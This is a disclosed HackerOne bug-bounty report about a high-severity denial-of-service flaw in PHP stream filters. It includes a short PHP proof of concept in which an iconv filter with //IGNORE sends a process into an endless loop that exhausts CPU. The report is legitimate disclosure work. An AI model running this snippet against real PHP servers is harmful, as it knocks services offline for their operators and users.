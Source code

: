 # DOS in stream filters

## Report Details
- **Report ID**: 505278
- **URL**: https://hackerone.com/reports/505278
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-03-05T16:55:38.672Z
- **Disclosed**: 2020-10-12T07:22:24.989Z

## Reporter
- **Username**: meitis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
see bug report
https://bugs.php.net/bug.php?id=76249

as simple as
<?php
$fh = fopen('php://memory', 'rw');
fwrite($fh, "abc");
rewind($fh);
stream_filter_append($fh, 'convert.iconv.iso-10646/utf8//IGNORE', STREAM_FILTER_READ, []);
echo stream_get_contents($fh);

=> one process running in an endless loop

## Impact

DOS, process ends up in an endless loop, CPU (or available php processes or both) of affected system get easily exhausted

## Attachments
No attachments
